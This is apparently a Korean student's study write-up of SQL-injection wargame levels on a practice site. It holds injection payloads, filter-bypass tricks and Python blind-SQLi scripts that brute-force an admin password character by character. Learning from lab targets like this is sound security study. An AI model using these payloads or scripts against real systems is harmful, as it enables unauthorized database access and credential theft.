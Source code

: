## 수업내용 떠올리기

1. url 뒤에 ?를 붙여서 query 에 내용을 넣을 수 있음(ex : ~~.php?id=admin)
2. query에서 #으로 뒷내용 주석화 시킬수있음
3. 따옴표를 사용할 수 없을때는 char(x,x,x,x)등 함수 이용
4. url encoding


***

## rubiya 사이트 난이도별 풀이

* gremlin
    * ```php
      if($result['id']) solve("gremlin");
      ```
      이 구문을 통해서 문제를 해결하는데에 pw는 상관없다는걸 알 수 있다.
      그렇기에 'id'를 TRUE로 만들어 버리면 된다. 즉 id를 요구하는 구문에
      ```
      ?id=' or 1=1%23
      ```
      를 inject해서 id자체를 TRUE로 만든 뒤 뒷부분을 #(%23) 으로 날려버리면 해결!
* cobolt
    * ```php
      if($result['id'] == 'admin') solve("cobolt");
      ```
      이 구문을 통해서 id가 admin이기만 하면 풀리는 것을 알 수 있다.
      ```
      ?id=admin'%23
      ```
      하면 풀린다. 추가로 수업에서 배운 내용으로
      ```
      ?id=' or 1=1%23
      ```
      을 inject 하면 elseif 구문으로 넘어간다.

      근데 왜 Hello {$result['id']} 에서 Hello rubiya가 나오는지는 모르겠다.
* goblin
    * ```php
      if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
      if($result['id'] == 'admin') solve("goblin");
      ```
      다옴표를 쓰지 말고 id를 admin으로 만들라고 한다.

      수업때 배운 char() 함수를 이용하면
      ```
      ?no=2 or id=char(97,100,109,105,110)
      ```
      을 삽입하여 문제를 해결한다. 
      
      여기서 no를 2로 한 이유는 잘 모르겠는데

      아마도 id=guest 이면서 no=1에 해당하는 데이터가 있어서 그 뒤 or까지 안넘어가는 것 같다. 
    
***

## orc(과제)
blind sql을 이용해서 내가 제시한 조건이 true 인지 false인지 판단한다.

이걸 이용해서 true 인 조건들을 취합하여 문제를 해결한다.
```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
```
이걸 보니까 여태껏처럼 id까지 맞춘 후 pw부분을 주석처리해서 날려버리는 방식이 아니라 진짜 pw를 알아내야하는 것 같다.

처음부터 끝까지 brute force를 사용하는것도 가능하겠지만 10년도 더 된 내 컴퓨터가 감당하지 못할 것 같기 때문에 pw의 길이부터 알아내보자.
```
?pw=jnj' or 1=1%23
```
을 해보니까 hello admin이 나온다. 1=1%23부분을 조작해서 pw의 길이를 알아내보자.(blind sql)
```
?pw=jnj' or length(pw)=X%23
```
노가다 해보니까 pw의 길이는 4였다.

<mark>근데 이상한 점은, pw의 길이를 8로 입력했을때도 Hello admin이 출력되었다는 것이다.</mark>

일단은 제쳐두고 pw의 길이를 4라고 가정한 후 풀어보았다.

이제 각각의 자리를 substr을 이용해서 알아내보자.

[인용](https://girrr.tistory.com/93)(https://girrr.tistory.com/93)

이 사이트는 강사님이 주신 사이트인데, 여기나온 방법대로는 파이썬에서 오류가 발생해서 

[인용](https://jaeseokim.tistory.com/26)(https://jaeseokim.tistory.com/26)

사이트를 인용하였다.

#### gremlin으로 테스트
```python
import requests

url='https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php'
cookies={'PHPSESSID':'내쿠키'}
injection="' or 1=1#"
params={'id':injection}
response=requests.get(url,params=params,cookies=cookies)
print(response.text)
```

gremlin으로 테스트 해보니 성공하였다. 

길이가 4인것은 알고있으니 substr을 이용해 각 자리의 비밀번호를 알아내보기로 하자.
```python
import requests

# chr(32) 에서 chr(126) 까지만 테스트 해 보면 될 것 같다.
# chr(32) 과 chr(126) 사이에 모든 특수문자와 영어대소문자가 포함되어있기 때문이다.
url='https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
cookies={'PHPSESSID':'내쿠키'}
for i in range(1,5):
    for passkey in range(32,126):
        injection="jnj' or substr(pw,"+str(i)+",1)='"+chr(passkey)+"'#"
        params={'pw':injection}
        response=requests.get(url,params=params,cookies=cookies)
        if "Hello admin" in response.text:
            print(chr(passkey))
            break
```
해당 코드를 돌렸더니 비밀번호는 095A 가 나왔다.

근데 정답이 아니었다. 여기서 멘탈이 한번 나갔다. 아까 제쳐두었던 부분이 문제가된것 같았다.

이유을 찾기위해 인터넷 검색을 해보다 보니까 sql에서는 and연산자가 or 연산자보다 우선시 되어 계산된다는 것을 알게 되었다.

우리의 쿼리는
```
select id from prob_orc where id='admin' and pw='' or substr(pw,1,1)=0#'
```
이것이기 때문에 id가 무엇인가에는 관계 없이 그저 length(pw)=8의 참 거짓 여부만 참조한다.

아마 내 추측으로는, 이 데이터베이스 속에 admin이 아닌 다른 계정또한 존재한다는 것이다.

이것을 피해가기 위해서는 'id=admin'을 and 문과 엮어 확실히 id가 admin일때의 pw를 구해내야 할 것 같았다.

그래서 수정된 나의 파이썬 코드는
```python
import requests

# chr(32) 에서 chr(126) 까지만 테스트 해 보면 될 것 같다.
# chr(32) 과 chr(126) 사이에 모든 특수문자와 영어대소문자가 포함되어있기 때문이다.
url='https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
cookies={'PHPSESSID':'내 쿠키'}
for i in range(1,9):
    for passkey in range(32,126):
        injection="jnj' or id='admin' and substr(pw,"+str(i)+",1)='"+chr(passkey)+"'#"
        params={'pw':injection}
        response=requests.get(url,params=params,cookies=cookies)
        if "Hello admin" in response.text:
            print(chr(passkey))
            break
```
이를 통해 알게된 pw는 095A9852이다.

근데 또 안됐다. ???????

대문자 소문자 문제였다. 진짜 pw는 095a9852이다.



<details>
<summary>그 외 추가로 이것저것</summary>
<div markdown="1">

wolfman
공백을 못쓴다. 강사님의 +쓰라는거 기억나서 써봤는데 안된다. 그냥 tab(%09)로 풀었다.

darkelf
or이랑 and쓰지 말랜다. 그래서 ||랑 &&썼더니 풀렸다.

</div>
</details>
